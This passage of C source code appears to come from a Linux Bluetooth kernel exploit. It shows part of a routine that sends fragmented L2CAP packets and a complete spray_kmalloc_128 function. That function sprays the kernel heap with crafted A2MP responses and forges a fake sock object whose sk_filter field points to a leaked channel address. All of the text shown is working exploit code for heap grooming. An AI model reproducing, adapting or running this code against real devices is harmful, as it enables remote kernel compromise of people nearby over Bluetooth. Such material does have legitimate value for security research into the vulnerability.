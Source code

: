         // Send fragmented l2cap packets (assume ACL MTU is at least 256 bytes).
        hci_send_acl_data(hci_sock, hci_handle, &assoc_rsp,
                          sizeof(assoc_rsp) - sizeof(assoc_rsp.data), 2);
        hci_send_acl_data(hci_sock, hci_handle, &assoc_rsp.data[0x000], 0x100, 1);
        hci_send_acl_data(hci_sock, hci_handle, &assoc_rsp.data[0x100], 0x100, 1);
        hci_send_acl_data(hci_sock, hci_handle, &assoc_rsp.data[0x200], 0x100, 1);
        hci_send_acl_data(hci_sock, hci_handle, &assoc_rsp.data[0x300], 0x100, 1);
      }

      printf("\n");
    }

    static void spray_kmalloc_128(int num) {
      // Skip first two hci devices because they may be legit.
      for (int i = 2; i < num + 2; i++) {
        printf("\r[*] Sending packet with id #%d...", i);
        fflush(stdout);

        struct {
          l2cap_hdr hdr;
          a2mp_hdr amp_hdr;
          a2mp_info_rsp info_rsp;
        } info_rsp = {0};
        info_rsp.hdr.len = htobs(sizeof(info_rsp) - L2CAP_HDR_SIZE);
        info_rsp.hdr.cid = htobs(AMP_MGR_CID);
        info_rsp.amp_hdr.code = A2MP_INFO_RSP;
        info_rsp.amp_hdr.ident = L2CAP_IDENT;
        info_rsp.amp_hdr.len =
            htobs(sizeof(info_rsp) - L2CAP_HDR_SIZE - sizeof(a2mp_hdr));
        info_rsp.info_rsp.id = i;
        hci_send_acl_data(hci_sock, hci_handle, &info_rsp, sizeof(info_rsp), 2);

        struct {
          l2cap_hdr hdr;
          a2mp_hdr amp_hdr;
          a2mp_assoc_rsp assoc_rsp;
          uint8_t data[0x80];
        } assoc_rsp = {0};
        assoc_rsp.hdr.len = htobs(sizeof(assoc_rsp) - L2CAP_HDR_SIZE);
        assoc_rsp.hdr.cid = htobs(AMP_MGR_CID);
        assoc_rsp.amp_hdr.code = A2MP_ASSOC_RSP;
        assoc_rsp.amp_hdr.ident = L2CAP_IDENT;
        assoc_rsp.amp_hdr.len =
            htobs(sizeof(assoc_rsp) - L2CAP_HDR_SIZE - sizeof(a2mp_hdr));
        assoc_rsp.assoc_rsp.id = i;
        for (int j = 0; j < sizeof(assoc_rsp.data); j += 8)
          memset(&assoc_rsp.data[j], 'A' + j / 8, 8);
        // Fake sock object.
        *(uint64_t *)&assoc_rsp.data[0x10] = l2cap_chan_addr + 0x300; // sk_filter
        hci_send_acl_data(hci_sock, hci_handle, &assoc_rsp, sizeof(assoc_rsp), 2);
      }

      printf("\n");
    }
